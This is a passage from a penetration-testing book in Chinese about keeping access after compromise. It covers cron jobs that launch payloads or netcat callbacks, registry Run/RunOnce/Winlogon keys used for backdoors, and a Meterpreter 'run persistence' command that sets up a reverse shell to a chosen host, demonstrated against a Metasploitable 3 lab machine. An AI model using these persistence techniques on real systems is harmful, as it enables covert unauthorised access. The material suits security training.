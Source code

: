 在 Linux 系统上，您可以自动启动任务。**Cron**是调度器，可用于在给定时间运行特定命令。这些计划任务称为**cron 作业**。在操作系统中，这些 cron 作业通常用于执行备份、删除日志文件和监视等任务。

您可以利用 cron 作业来运行使用 Metasploit 等工具生成的有效负载。一个更简单的任务是使用 cron 作业创建一个 netcat 会话，该会话将连接回您。

# 以土地为生

在陆地上生活需要使用当前操作系统的工具来执行任务。例如，您可以使用 PowerShell 执行许多任务，从侦察到维护后门。注册表是设置持久访问的好方法。利用注册表可以执行批处理文件和可执行文件，甚至可以在 DLL 中使用函数。

关注注册表，了解**HKEY_ 本地 _ 机器**（**HKLM**）和**HKEY_ 当前 _ 用户**（**HKCU**之间的差异非常重要。**HKLM**中定义的密钥在每次系统启动时运行，而**HKCU**在用户登录后运行。此处定义的键是最常见的键，用于注入后门：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]
```

请注意，我们有定义为`Run`和`RunOnce`的注册表项。在引导或登录期间，`RunOnce`键只运行一次，然后被删除，`Run`键保持不变。

# 使用持久性工具

现在，我们已经介绍了一些可用于维护访问的技术，让我们重点介绍一些可用的工具。我们将看到的第一个工具是 Metasploit 框架。我们将介绍的第二个工具是帝国。

# Metasploit 框架

在本书中，我们广泛地介绍了 Metasploit，也就是说，当我们在渗透测试的许多阶段使用它时。说到持久性，Metasploit 在这方面也有模块。

我的目标系统是 Metasploitable 3 虚拟机。我用`exploit/windows/smb/ms17_010_eternalblue`来利用它。

创建 MeterMeter 会话后，可以使用`run persistence`命令利用内置的持久性脚本。我们可以在以下屏幕截图中看到可用的选项：

![](assets/a9ac1c02-5c90-4853-8ecd-bd8fb9b06040.png)

图 1:MeterMeter 持久性脚本选项

有一条警告通知我们 MeterMeter 脚本已弃用，我们应该使用`/post/windows/manage/persistence_exe`。现在，让我们继续使用不推荐使用的脚本。

要获得持久性 shell，我们可以使用`run persistence -U -i [seconds] -p [port] -r [host]`命令。

此命令允许代理在用户登录时启动（`-U`。我们以秒为单位定义间隔（`-i`）；我们定义远程端口（`-p`，然后定义要连接回的主机（`-r`。脚本运行后，我们将看到已设置注册表项，并且已使用`.vbs`文件设置了持久性：

![](assets/4ff054e5-614f-4266-acc2-1d9858fb6bfd.png)
